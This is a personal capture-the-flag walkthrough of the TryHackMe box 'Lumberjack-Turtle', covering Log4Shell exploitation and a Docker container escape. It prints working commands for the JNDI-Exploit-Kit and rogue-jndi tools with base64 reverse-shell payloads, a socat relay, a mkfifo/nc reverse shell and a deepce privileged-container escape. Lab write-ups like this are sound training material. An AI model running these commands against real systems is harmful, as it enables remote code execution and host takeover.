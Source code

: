 # Lumberjack-Turtle Writeup

Name: Lumberjack-Turtle
Date:  21/4/2024
Difficulty:  Medium
Goals:  
- Use the JNDI exploit toolkit and Ysoserial
Learnt:
- better log4j exploitation
- disks are not all default named and I had a bias for that `fdisk` for the win
Beyond Root:
- Getting it done is enough

While trying to do a HTB season 5 box I was hoping that a similar service was similarly vulnerable, therefore this Helped-Through exist while I wait on some background recon. I just followed along with [xplo1t-sec](https://github.com/xplo1t-sec/CTF/blob/master/TryHackMe/LumberjackTurtle/README.md)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

www-root on port 80
![](javabeingthehint.png)

Cause errors for enumeration
![](forcinganerrorlike-xplo1t-sec.png)

A reminder to use multiple wordlists
![](approximate-logs.png)
And here it is 
![](bigwltotheresecue.png)
~logs directory
![](nologsnocrimegodeephint.png)
and because this is a help thorough and there are hints for Log4j 
![](lumberjackturtlage.png)
...and the log4j page with the hint:
![](sepcialhintheaders.png)

https://apkash8.medium.com/exploiting-the-log4j-vulnerability-cve-2021-44228-4b8d9d5133f6
![](justanoobarticle.png)

![](stage6.png)

In my haste to continue on and understand why JDK 1.7 was used in relation to the information provided above and the int from the box. I presume now as of 2024 and season 4 HTB behind me that JDK 1.7 is the best for Ysoserial.

## Exploit

[Got Milk commercial](https://www.youtube.com/watch?v=Zy63_nKaoy8), got this sick working tool for Log4J recommended by [xplo1t-sec](https://github.com/xplo1t-sec/CTF/blob/master/TryHackMe/LumberjackTurtle/README.md)
: [https://github.com/pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
![](jdniei-options.png)
```bash
git clone https://github.com/pimps/JNDI-Exploit-Kit.git
cd JNDI-Exploit-Kit
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "$yourLdapServer$:1389" -C "echo $base64ReverseShellage | base64 -d | bash"
```

I then helpfully reminded of HTB season 4 JDK fun time.
```bash
apt update
apt install openjdk-11-jdk -y
apt-get install maven
mvn -v
git clone https://github.com/veracode-research/rogue-jndi.git
cd rogue-jndi  
mvn package

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $ENCODEDPAYLOAD} | {base64,-d}|{bash,-i}" --hostname "$IP"

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $base64ReverseShellage
} | {base64,-d}|{bash,-i}" --hostname "10.11.3.193"

```

Pimp's JNDI exploit kit works
![](nice.png)

and flag
![](androot.png)
But in a docker container...

## Escaping the container and rooting the host machine

![](containmewhydontya.png)

I could use the deepce enumeration script, but I just wanted to walk through it manually first

![](dockerprocess.png)

For the screenshot of mindmelting fun
![](cyclindericaltrippyfilesystem.png)

Trying to connect to the host for docker version exploits
![](noenumeratingtheinternalhostsinternalnetworkingfordocker.png)

now for namespaces and capabilities
![](nonsenternamespacesorcapsh.png)

Deepce output
![](deepce.png)

For whatever reason socat did not want to work...
```bash
nohup /tmp/socatx64.bin TCP-LISTEN:8000,reuseaddr,fork TCP:10.11.3.193:8443 &

# 
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 172.17.0.2 8000 >/tmp/f

./deepce.sh --no-enumeration --exploit PRIVILEGED --command "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxNzIuMTcuMC4yIDgwMDAgPi90bXAvZg== | base64 -d | bash"
```

A better way for disk enumeration, xvda is a disk name I have not seen
![](betterway.png)

![](dotfilesdonothidethings.png)

![](whythreedots.png)
and finally
![](becauseyoucaniguess.png)
## Post-Root-Reflection  

- Better Log4J exploitation
- Disk are sometimes named different things 
## Beyond Root

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)


